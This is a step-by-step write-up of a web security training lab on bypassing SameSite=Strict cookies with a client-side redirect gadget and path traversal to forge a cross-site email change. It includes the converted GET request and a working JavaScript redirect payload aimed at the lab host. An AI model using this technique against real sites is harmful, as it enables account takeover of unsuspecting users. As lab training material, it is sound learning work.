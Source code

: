 # Lab 8: SameSite Strict bypass via client-side redirect

### 🎯 Objective:

Perform a CSRF attack that changes the victim's email address using a redirect gadget to bypass `SameSite=Strict` cookie restrictions.

---

## 🧩 Background Knowledge

- **CSRF (Cross-Site Request Forgery)** allows an attacker to perform unauthorized actions on behalf of an authenticated user.
- **SameSite Cookies** are used to restrict the inclusion of cookies in cross-origin requests.
    - `SameSite=Strict` **blocks cookies completely** in cross-site requests, **even for top-level navigations**.
- In this lab, we **bypass SameSite=Strict** using a **JavaScript-based redirect gadget** that initiates an **internal GET request**, allowing cookies to be sent.

---

## 📝 Step-by-Step Lab Solution

### 1. 🔍 Study the Change Email Function

- **Login to the application** as `wiener:peter`.
- **Navigate to your account** and change your email address.
- **In Burp Suite:**
    - Go to **Proxy > HTTP history**.
    - Locate the `POST /my-account/change-email` request.
    - **Observe**:
        - Request only includes `email=...` and `submit=1`.
        - **No CSRF token** is used.
        - Suggests CSRF is possible **if we can bypass cookie restrictions**.
- Check the **`Set-Cookie`** response in the login:
    - **SameSite=Strict** is explicitly set.
    - This **blocks session cookies** from being included in **any cross-site request**, even top-level GETs.
        
        ![2025-06-15_23-10.png](LabImg/2025-06-15_23-10.png)
        
        ![2025-06-15_23-11.png](LabImg/2025-06-15_23-11.png)
        
        ![2025-06-15_23-12.png](LabImg/2025-06-15_23-12.png)
        
        ![2025-06-15_23-13.png](LabImg/2025-06-15_23-13.png)
        

---

### 2. 🧩 Identify a Suitable Redirect Gadget

- **Post a comment** on a blog post.
- You are redirected temporarily to:
    
    ```
    /post/comment/confirmation?postId=2
    
    ```
    
- **Client-side JavaScript file** `/resources/js/commentConfirmationRedirect.js` is responsible for redirecting.

### Analyze the behavior:

- JavaScript reads the `postId` parameter and redirects the user:
    
    ```
    /post/comment/confirmation?postId=foo → redirects to /post/foo
    
    ```
    
- **Try path traversal**:
    
    ```
    /post/comment/confirmation?postId=1/../../my-account
    
    ```
    
- **Result**: Browser redirects to `/my-account`.

✅ **Confirmed**: This gadget can be used to trigger **internal navigations** to **any endpoint**, including CSRF targets.

![2025-06-15_23-13_1.png](LabImg/2025-06-15_23-13_1.png)

![2025-06-15_23-14.png](LabImg/2025-06-15_23-14.png)

![2025-06-15_23-14_1.png](LabImg/2025-06-15_23-14_1.png)

![2025-06-15_23-15.png](LabImg/2025-06-15_23-15.png)

![2025-06-15_23-19.png](LabImg/2025-06-15_23-19.png)

![2025-06-15_23-23.png](LabImg/2025-06-15_23-23.png)

![2025-06-15_23-24.png](LabImg/2025-06-15_23-24.png)

---

### 3. 🎯 Craft the CSRF Exploit

- **Send the `POST /my-account/change-email` request** to Burp Repeater.
- Right-click → **Change request method** to `GET`.
- Burp converts to:
    
    ```
    GET /my-account/change-email?email=your@evil.com&submit=1
    
    ```
    
- **Send it** and confirm the server accepts GET-based email change.
    
    ![2025-06-15_23-30.png](LabImg/2025-06-15_23-30.png)
    
    ![2025-06-15_23-30_1.png](LabImg/2025-06-15_23-30_1.png)
    

---

### 4. 🧨 Build the Final Exploit Payload

Use the redirect gadget to send a forged internal GET request:

```html
<script>
  document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>

```

### Notes:

- The **email is URL-encoded** (`%40` = `@`).
- The **ampersand (`&`)** is encoded as `%26` to **stay within the `postId` parameter**.

---

### 5. ✅ Test and Deliver the Exploit

- **Test the exploit** by storing it and viewing it from the exploit server.
- Go to your account → verify the email was changed to `pwned@...`.
- **Update the email** to something unique like:
    
    ```
    victim123@attacker.net
    ```
    
- **Store** and **deliver the exploit** to the victim.

🎉 **Lab Solved!**

![2025-06-15_23-36.png](LabImg/2025-06-15_23-36.png)

![2025-06-15_23-36_1.png](LabImg/2025-06-15_23-36_1.png)

---

## 💡 Why This Works

- `SameSite=Strict` blocks cookies in cross-origin requests.
- The attacker’s site loads the **redirect gadget endpoint**, which then **performs an internal redirect using client-side JavaScript**.
- This **bypasses SameSite restrictions**, as the redirected request is:
    - **Same-origin**
    - **Automatically includes cookies**
- The backend **does not validate CSRF tokens** and **accepts GET for state-changing actions**.

## **💪 Community solutions**

> [https://youtu.be/UvUOrnY_4DQ](https://youtu.be/UvUOrnY_4DQ)
>